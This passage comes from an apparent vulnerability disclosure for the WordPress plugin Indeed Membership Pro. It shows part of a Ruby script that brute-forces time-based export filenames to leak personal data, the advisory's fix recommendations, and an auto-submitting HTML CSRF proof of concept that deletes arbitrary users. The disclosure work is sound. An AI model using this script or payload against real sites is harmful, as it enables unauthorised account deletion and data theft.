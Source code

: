 ```ruby
          progress_bar.log("Found! - #{res.headers['Content-Length']} - #{res.headers['Content-Type']} - #{url}")

          found = true
        rescue StandardError => e
          progress_bar.log("#{url} - #{e.message}")
        end
      end
    end
  end

  workers.map(&:join)
ensure
  progress_bar.stop
end
```

```
% ruby brute_force.rb -s 1581690389 -e 1581690390 --url http://example.com/
Found! - 53622 - application/xml - http://example.com/wp-content/plugins/indeed-membership-pro/9af5f4948d81403426a6c4874d1c4e0a.xml                                       
Progress Time: 00:04:52 <===        > (7266 / 20000) 36.33%  ETA: ??:??:??
```

The previously generated files from `ihc_return_csv_link()` and `ihc_make_export_file()` were not deleted. Even though the  filenames are md5 hashed strings (of non random bit through), leaving them there increase the risk of an attacker guessing them, which would lead to PII being leaked.

We gave the following recommendation to the devs:

- Add CSRF checks on all AJAX calls;
- Use the random_bytes() PHP function to generate the random part of the filenames, instead of a time based one like time();
- Make sure the previously generated exported files are deleted when a new one is created;
- Make sure the export.xml is removed if present in newest version of the plugin.


### Cross-Site Request Forgery allowing Arbitrary Account Deletion and Creation (WPVulnDB [10087](https://wpvulndb.com/vulnerabilities/10087), v < 8.7)

While confirming the fixes for the previous issues, we noticed two CSRF (not via AJAX calls like previously), which could allow arbitrary deletion and creation of accounts, including with the administrator role for the later.

#### PoC to Delete Arbitrary Users via CSRF Attack

```html
<html>
  <body onload="document.forms[0].submit();">
    <form action="https://example.com/wp-admin/admin.php?page=ihc_manage&tab=users" method="POST">
      <input type="hidden" name="ihc_limit" value="25" />
      <input type="hidden" name="delete_users[]" value="5" />
      <input type="hidden" name="delete" value="Delete" />
    </form>
  </body>
</html>
```
